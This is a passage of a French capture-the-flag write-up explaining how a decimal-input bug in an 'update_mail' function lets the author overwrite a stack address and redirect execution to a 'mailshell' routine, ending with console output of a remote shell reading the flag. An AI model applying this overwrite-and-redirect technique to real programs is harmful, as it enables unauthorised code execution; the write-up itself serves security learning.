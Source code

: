 En utilisant la vulérabilité dans `update_mail` pour réecrire par dessus `0x00007fffffffdc80` on peut donc rediriger l'exécution du programme.

## Exploit

Cette étape pourrait être faite manuellement en écrivant par dessus 8 bytes pour atteindre `0x00007fffffffdc80`, puis l'adresse de `mailshell` que l'on veut atteindre, mais j'ai écrit un script vu que perdre du temps en ctf est une bonne idée. À noter que `update_mail` interprète l'input en tant que valeur décimale :

```C
__isoc99_scanf(&DECIMAL_INPUT,input);
```

```md
                         DECIMAL_INPUT                             
                                                                                
      00402012 25            ??        25h    %
      00402013 64            ??        64h    d
      00402014 00            ??        00h
```

Il faut donc injecter les valeurs décimales des bytes voulues comme par exemple 15 pour 0x0f :

```python
>>> 0x0f
15
```

[Ce script](./exploit.py) nous permet de mettre tout cela en forme :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1236: Done
[*] Switching to interactive mode
$ whoami
yogosha

$ ls
flag.txt
task
ynetd

$ cat flag.txt
StarHack{do_n0t_ev3r_trUsT_u5eR_1npUt_hayatflgh}
```